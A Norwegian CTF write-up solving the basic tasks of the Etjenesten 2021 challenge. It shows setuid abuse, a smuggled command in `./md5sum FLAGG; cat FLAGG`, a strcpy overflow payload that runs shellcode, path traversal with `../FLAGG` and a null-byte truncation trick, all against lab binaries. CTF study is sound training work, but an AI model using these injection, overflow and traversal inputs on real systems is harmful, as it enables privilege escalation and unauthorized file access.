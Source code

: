 ```yaml
---
title: Etjenesten21 - Grunnleggende
date: 2022-01-17 12:00:00 +0100
categories: [Etjenesten, Etjenesten Jul 21]
tags: [ctf, etjenesten, suid, rev, pwn, python, "2021", norwegian]
img_path: /assets/img/etjenesten21/
---
```

# 1.1_scoreboard
Flagget nås ved `cat FLAGG`.

# 1.2_setuid
Flaggfilen eier vi ikke, men vi har en cat-kommando med setuid bit til den brukeren som eier filen. `./cat FLAGG`

# 1.3_injection
Binaryen *md5sum* har et setuid-bit satt for eieren av FLAGG. Vi kan kjøre `./md5sum FLAGG; cat FLAGG` for å få programmet til å printe flagget.

# 1.4_overflow
Vi finner ut ved å se på kildekoden at binaryen bruker *strcpy()*, som lar oss overflowe bufferet som lagrer inputen vår. Vi kan også se at variabelen *above* må ha verdien "ABCDEFGH". Hvis *above* er satt korrekt til koden hoppe til `prep_shellcode` siden det er dit `shellcode_ptr` peker. Koden i SHC-enviroment variabelen blir tilslutt i denne funksjonen returnert til, osm gir oss shell som `basic4` brukeren.
```shell
$ export SHC=$(cat sample_shellcode)
$ ./overflow "AA$(echo $SHC)ABCDEFGHaaaaaaaaaaaaaaaaaaaaaaaa000000"
```
{: .nolineno }

# 1.5_nettverk
Flagget kommer etter man har kommunisert med en server.
```python
import socket
import struct
import select

TCP_IP = "127.0.0.1"
TCP_PORT = 10015

def main():
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    conn.connect((TCP_IP, TCP_PORT))
    print(conn.recv(4096).decode("utf-8"))

    a = []
    for i in range(10):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((TCP_IP, TCP_PORT))
        a.append(s)
    print(conn.recv(4096).decode("utf-8"))

    sum = 0
    for b in range(len(a)):
        data = a[b].recv(4096)
        value = struct.unpack('>I',data)
        sum += value[0]

    conn.send(bytearray(struct.pack('>I', sum)))
    print(conn.recv(4096).decode("utf-8"))
    list = []
    while True:
        try:
            ready,_,_ = select.select(a, [], [], 10.0)
            for sock in ready:
                tpl = sock.recv(4096).decode("utf-8")
                list.append(tpl[0])
        except:
            break
    print("".join(list))

if __name__ == "__main__":
    main()
```

# 1.6_reversing
Ved å reversere filen *check_password* kan man se at:
- Passordet må være 32 bytes langt
- At de første 19 bokstavene er *Reverse_engineering*
- De neste bokstavene er *_er_* (hex tall gjort om til ascii)
- Slutter med bokstavene *morsomt__*
Strengen blir til slutt `Reverse_engineering_er_morsomt__`

Med Ghidra ser *check_password* slik ut:

![reversing](6_reversing.png)

# 1.7_path_traversal
Vi har et binary som leser filer i et directory som heter *bok*. Vi kan bruke path-traversal til å hoppe tilbake ett directory for å lese FLAGG-filen.
`./les_bok ../FLAGG`

# 1.8_bonusflagg
Det er et bonus flagg også. Vi kan se i c-koden til *les_bok* at det legges til en *.txt* på teksten vi sender som argument (fila vi vil lese). Vi kan terminere stringen før *.txt* blir lagt til med en url-enkodet null-byte, og lese flagget på samme måte som forrige.
`./les_bok ../BONUS_FLAGG%00`
